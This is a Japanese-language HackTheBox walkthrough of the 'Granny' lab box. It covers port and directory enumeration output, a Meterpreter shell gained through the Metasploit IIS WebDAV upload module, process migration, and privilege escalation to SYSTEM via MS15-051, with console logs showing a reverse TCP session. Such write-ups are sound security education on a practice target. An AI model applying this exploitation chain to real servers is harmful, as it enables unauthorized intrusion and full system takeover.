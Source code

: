 
# Granny - HackTheBox

このボックスを一言でまとめると。アップデートしてくれ　;-;

# Enumeration・情報収集

## Rustscan

```bash
Open 10.10.10.15:80
```

## Nmap

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|_  Server Date: Sun, 04 Sep 2022 22:11:56 GMT
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## ffuf

```bash
 :: Method           : GET
 :: URL              : http://granny.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

Images                  [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 71ms]
_private                [Status: 301, Size: 152, Words: 9, Lines: 2, Duration: 60ms]
_vti_log                [Status: 301, Size: 154, Words: 9, Lines: 2, Duration: 69ms]
_vti_bin                [Status: 301, Size: 154, Words: 9, Lines: 2, Duration: 126ms]
aspnet_client           [Status: 301, Size: 157, Words: 9, Lines: 2, Duration: 62ms]
images                  [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 68ms]
:: Progress: [20476/20476] :: Job [1/1] :: 463 req/sec :: Duration: [0:00:33] :: Err
```

# Foothold・初期侵入 & Root

Microsoft IIS 6.0の脆弱性をググってみると、TrendMicroに書かれた [記事(英語のみ！)](https://www.trendmicro.com/en_us/research/17/c/iis-6-0-vulnerability-leads-code-execution.html) が出てきました。

偶然metasploitでmoduleを検索すると"windows/iis/iis_webdav_upload_asp"のmoduleが発見した。

試すとmeterpreterシェルができて、wmiprvse.exeにプロセスマイグレーションしました！

```cmd
 1964  584   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1972  2700  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad10F81.tmp\svchost.exe
 2052  1004  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe
 2164  1848  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe
 2292  584   wmiprvse.exe
 2700  1480  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 2768  584   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 3004  344   logon.scr

meterpreter > migrate 1964
[*] Migrating from 1972 to 1964...
[*] Migration completed successfully.
meterpreter > getuid
```

```cmd
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.
```

Windowsバージョン5.2はかなり古くてwindows-exploit-suggesterっていうスクリプト起動して、MS15-051 - ClientCopyImageっていうエキスプロイトは最初でました。

やってみるとrootシェルゲットだ！

```bash
msf6 exploit(windows/local/ms15_051_client_copy_image) > run

[*] Started reverse TCP handler on 10.10.14.29:1234 
[*] Reflectively injecting the exploit DLL and executing it...
[*] Launching msiexec to host the DLL...
[+] Process 3984 launched.
[*] Reflectively injecting the DLL into 3984...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175686 bytes) to 10.10.10.15
[*] Meterpreter session 3 opened (10.10.14.29:1234 -> 10.10.10.15:1035) at 2022-09-04 18:10:02 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

"Lakis"と"Administrator"のホームフォルダーで二つのフラグをゲットしました！　:)
